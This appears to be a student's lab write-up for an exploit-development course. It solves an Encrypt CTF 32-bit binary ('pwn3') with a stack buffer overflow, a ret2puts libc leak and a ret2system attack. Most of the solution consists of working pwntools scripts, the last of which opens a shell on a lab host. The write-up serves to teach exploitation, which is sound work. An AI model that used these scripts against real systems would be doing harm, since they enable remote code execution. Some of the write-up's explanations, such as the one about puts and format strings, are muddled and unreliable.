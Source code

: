 ## Task 1: Connect to the lab and examine the binary

Try to access the service at 172.16.172.41:4444. Compare it with the "pwn3" binary available on xdev's Desktop. Try to find the buffer overflow vulnerability and control the EIP.

We used a binary from Encrypt CTF for this challenge. The binary is available at: [https://github.com/mishrasunny174/encrypt-ctf/tree/master/pwn/x86/pwn3](https://github.com/mishrasunny174/encrypt-ctf/tree/master/pwn/x86/pwn3)

## Task 2: Design a ret2puts attack scenario

Check what functions are present in the binary. Perform a ret2puts attack which results in an information leak.

**Hint**: ASLR does not affect PLT or GOT, but when referring to PLT or GOT you might be able to see randomized locations. [The plt/got sections are not randomized themselves, but after the loader resolves the function names, got points to libc. libc is randomized, so we can abuse the fact that there is a non-randomized pointer to randomized location.]

## Task 3: Leak libc's address and use it

Remember that in libc, every function is at a constant offset from the libc base and from each other. Having one valid address of libc may allow you to calculate all other addresses dynamically.

## Task 4: return to main and re-exploit the binary

After leaking the information needed, return to main() so that you are able to re-launch your attack. Use the dynamically calculated addresses to perform a ret2system() attack. In the end, confirm your exploit works by attacking the remote service on 172.16.172.41:4444

---

## Lab Part
Tried to make crash the program

![lab3_img1.png](lab3_img1.png)

The program crashed in 200 bytes of `A`, open debugger and check security of file, offset, and try to override the `EIP`

First of all, check the security of system and file, as below picture, the program using Data Execution Prevention (DEP) - No Execute bit (NX) and Address space layout randomization (ASLR) with options 2 which mean full randomization

![lab3_img2.png](lab3_img2.png)

Next part, get the offset value, in this part, I am not going to use the `pattern create/offset` which is [peda](https://github.com/longld/peda)'s feature. Instead that, I will use cyclic, which is one of feature of pwnlib.
- `cyclic 200`
- 
![lab3_img3.png](lab3_img3.png)

![lab3_img4.png](lab3_img4.png)

- `pwn cyclic -l 0x6261616b` => Output: 140

Make a string to confirm that 140 `A` is the offset and override `EIP` with `BBBB`

- `python -c "print('A'*140+'B'*4)" > input.txt`

![lab3_img5.png](lab3_img5.png)

Greate, now we can control the EIP, but we could not attack because of the program has 2 security as mentioned above, so let's analysis the assembly code. 

In `gdb` debugger, set the disable-randomization to on:

- `set disable-randomization on`

Disassembly the `main` for many times to watch what is change, which address is not changed.

![lab3_img6.png](lab3_img6.png)

As above picture, we can see the libc address is not changed. `puts@plt` has same function like printf, but  `puts` will prevent the format string,  `gets@plt`  is the cause make the buffer overflow.

- So, the idea to overflow the program is print the value of `puts` twice, to get the EIP, then we will return to main, and calculate address of system(), exit(), and argument based on libc's address.

![lab3_img7.png](lab3_img7.png)

- `0x8048340` which is the pointer of address `puts@plt`. here we got 3 lines. In the first line, the DS make a new EIP, point to `0x80497b0` which is `puts@got.plt`, this means puts@plt make a new EIP point to `puts@got.plt` to check and input if have format string, then output, so we could take it to be the argument to print the output (include the return address of puts@plt)

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

exploit = process('./pwn3')
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))
```

![lab3_img8.png](lab3_img8.png)

Now we leaked the `puts@plt` address, now get the based address of `system()`, `exit()`, and `/bin/sh` arguments. Breakpoint at `main` the following below picture's instruction.

![lab3_img9.png](lab3_img9.png)

Now, we write new exploit, with another new payload to re_exploit and ret2sys

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

exploit = process('./pwn3')
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))

libc_base = leak_add - 0x5fca0 # puts_base
sys_add = p32(libc_base+0x3ada0)
exit_add = p32(libc_base + 0x2e9d0)
args = p32(libc_base + 0x15ba0b)

log.info('system@libc: '+hex(u32(sys_add)))
log.info('exit@libc: ' + hex(u32(exit_add)))
log.info('/bin/sh: ' + hex(u32(args)))

new_payload = b'A'*140 + sys_add + exit_add + args
exploit.send(new_payload)
exploit.interactive()
```

![lab3_img10.png](lab3_img10.png)

We got crashed, so check the core file, and we got the return address is pointing to `0x41414141`.

![lab3_img11.png](lab3_img11.png)

We just need remove 8 bits and re-run, and we success exploit the program.

![lab3_img12.png](lab3_img12.png)

Change the target to the host, and we success fully control the machine.

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

#exploit = process('./pwn3')
exploit = remote("172.16.172.41", 4444)
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))

libc_base = leak_add - 0x5fca0 # puts_base
sys_add = p32(libc_base+0x3ada0)
exit_add = p32(libc_base + 0x2e9d0)
args = p32(libc_base + 0x15ba0b)

log.info('system@libc: '+hex(u32(sys_add)))
log.info('exit@libc: ' + hex(u32(exit_add)))
log.info('/bin/sh: ' + hex(u32(args)))

new_payload = b'A'*132 + sys_add + exit_add + args
exploit.send(new_payload)
exploit.interactive()
```

![lab3_img13.png](lab3_img13.png)

---
## Reference
- [Linux Exploit Development (INE).](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)
